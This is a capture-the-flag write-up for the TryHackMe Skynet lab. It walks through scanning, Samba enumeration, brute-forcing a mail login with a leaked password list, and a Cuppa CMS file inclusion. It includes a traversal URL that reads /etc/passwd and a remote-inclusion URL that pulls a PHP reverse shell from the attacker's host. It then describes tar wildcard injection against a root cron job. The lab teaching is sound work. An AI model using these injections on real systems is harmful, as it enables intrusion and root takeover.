

# Skynet Writeup

## Overview

This is my writeup for the Skynet room on TryHackMe, a vulnerable Terminator themed Linux system.  This will involve using `nmap`, `gobuster`, and `smbclient` to gather information and enumerate Samba shares, and exploiting a remote file inclusion vulnerability on a website in order to gain access.  To escalate our privileges we will use wildcard injection with `tar`.

## How to Access

I completed this room on TryHackMe.  You can access it [here](https://tryhackme.org/room/skynet).

## Steps

#### Information Gathering

Let's begin with an `nmap` scan:

```
$ nmap -sC -sV -oN scans/initial 10.10.185.57
# Nmap 7.91 scan initiated Mon May 24 20:03:30 2021 as: nmap -sC -sV -oN scans/initial 10.10.185.57
Nmap scan report for 10.10.185.57
Host is up (0.056s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA SASL UIDL PIPELINING AUTH-RESP-CODE TOP RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: SASL-IR more have OK ENABLE LOGIN-REFERRALS post-login capabilities IMAP4rev1 listed LOGINDISABLEDA0001 LITERAL+ ID Pre-login IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2021-05-24T14:03:43-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-24T19:03:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 24 20:03:45 2021 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

The results show that we have **6** ports open:
- SSH on port 22 (Ubuntu v7.2p2)
- HTTP on port 80 (Apache v2.4.18)
- Pop3 on port 110 (mail server)
- Netbios-ssn on port 139 (Samba share)
- Imap on port 143 (mail server)
- Netbios-ssn on port 445 (Samba share v4.3.11-Ubuntu)

Let's start with the website on port 80.  While you manually crawl through the site, make sure to run `gobuster` to make sure you're not missing out on any directories:

```
$ gobuster dir -u http://10.10.185.57/ -w /usr/share/wordlists/dirb/common.txt      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.57/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/24 20:05:30 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.185.57/admin/]
/config               (Status: 301) [Size: 313] [--> http://10.10.185.57/config/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.57/css/]   
/index.html           (Status: 200) [Size: 523]                                  
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.57/js/]    
/server-status        (Status: 403) [Size: 277]                                  
/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.185.57/squirrelmail/]
                                                                                       
===============================================================
2021/05/24 20:05:56 Finished
===============================================================
```

The mainpage of the site shows a Google-like search interface:


The `gobuster` scan also flagged up a `/squirrelmail` directory:


Now that we have the website enumerated, let's move onto the Samba shares.  I used `smbclient` for this:


It shows that there are **four** shares:
- `print$`
- `anonymous`
- `milesdyson`
- `IP$`

#### Gaining Access into Samba

Let's login to the `anonymous` share:


As shown above, there are two items on the anonymous share.  The first is `attention.txt` which contains the following:

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

It appears that all employees had their passwords forcefully changes after a system malfunction.  The second item is a `/logs` directory which contains three `.txt` files.  The first of which (`log1.txt`) contains a list of passwords:

```
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

#### Bruteforcing with Hydra

Let's download this and use it as a wordlist to bruteforce the `miles` user's password:



This will not give you access to the SMB share as `miles` (remember the password reset note), but if you use this password on the `squirrelmail` login from earlier, you will get access to the `miles` user's email:


The "Samba password reset" contains the user's new password:


We can not go ahead and log in via SMB:


Within the `/notes` directory, there is a `important.txt` file which contains the hidden directory for the website.  


Let's see what's on this:


Again, make sure you use `gobuster` (enumeration, enumeration, enumaration) as it will reveal an `/administrator` panel:


The admin panel is a login to a **Cuppa CMS** system.


A quick look on searchsploit shows that this is vulnerable to **local/remote file inclusion**.  This vulnerability allows attackers to retrieve files on the target machine or insert files from a remote server which they control.


#### Exploiting CMS with Local/Remote File Inclusion 

I first tested to see if we can retrieve the `/etc/passwd` file using the following command:

```
http://<ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

The `../../../../../../` specifies that we want to traverse back through the directories until we can't go any further.  Then, it will navigate to the `/etc/passwd` file and display it as if it were a normal webpage:

Then, I was able to retrieve the `user.txt` flag in the `/home/miles` directory using a similar injection:


Unfortunately, we can't do the same for the root flag.  So, we need to get access to the machine and escalate our privileges.  Let's use this remote file inclusion vulnerability to upload a reverse shell.  I am using a PHP reverse shell which you can download from [here](https://github.com/pentestmonkey/php-reverse-shell).

If you are doing the same make sure to change the IP to your IP address and port (optional) so that netcat can catch the callback:


Next, start a `python` HTTP server in the directory where this shell is stored and start a `netcat` listener on your chosen port. Then, use the following injection:

```
http://10.10.185.57/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<ip>/php-reverse-shell.php
```

This will fetch the `php-reverse-shell.php` file from your system as if it were a page on the site.  You should have access to the system on your `netcat` listener:


Now that we have access to the machine. let's perfrom more enumeration to see if we can escalate our privileges.  To do this, I will be using linPEAS which you can download from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).  I create another `python` HTTP server and use `wget` on the target machine to download the file:


Make sure to use `chmod +x` so that you can execute `linpeas.sh` on the machine.  Once linPEAS finishes executing, you may notice from the output that `root` is running a `backup.sh` script every minute to create a backup of `/var/www/html`.  The `backup.sh` file is as follows:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

#### Privilege Escalation via Wildcard Injection

The use of the `*` wildcard means that we can replace it with some range or characters.  These wildcards are interpreted by the shell before any other action has taken place.  In this case, `*` matches any number of characters in a file name.  If you are still unclear how wildcard injection works, [here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) is an article which I found very useful.

I also checked the `/etc/crontab` to make sure this was a scheduled event, i.e., every minute the cron job runs as `root`:


We can now use a reverse netcat payload to escalate our privileges.  On your local machine:


Using the output, run the following on the target machine:


With your `netcat` listening on port 8888, you should now be `root`.  As you can see below, I received the callback and retrieved the `root.txt` flag in the `/root` directory:


And that's it!  All done!

## Summary and Feedback

In this room we:
- Scanned ports using `nmap`
- Used `gobuster` to enumerate directories
- Used `smbclient` to enumerate Samba (SMB) shares
- Used `hydra` to bruteforce email credentials
- Exploited CMS using a local/remote file inclusion vulnerability
- Used `linPEAS` to enumerate a Linux system
- Escalated our privileges by exploiting `tar` using wildcard injection

This room is a very good example of what an *actual* CTF should be like.  It is not particularly guided so you have to make sure you have a solid methodology as you work through it.  It is labelled as an "easy" room but in my opinion, it is more intermediate.

I hope you enjoyed this writeup.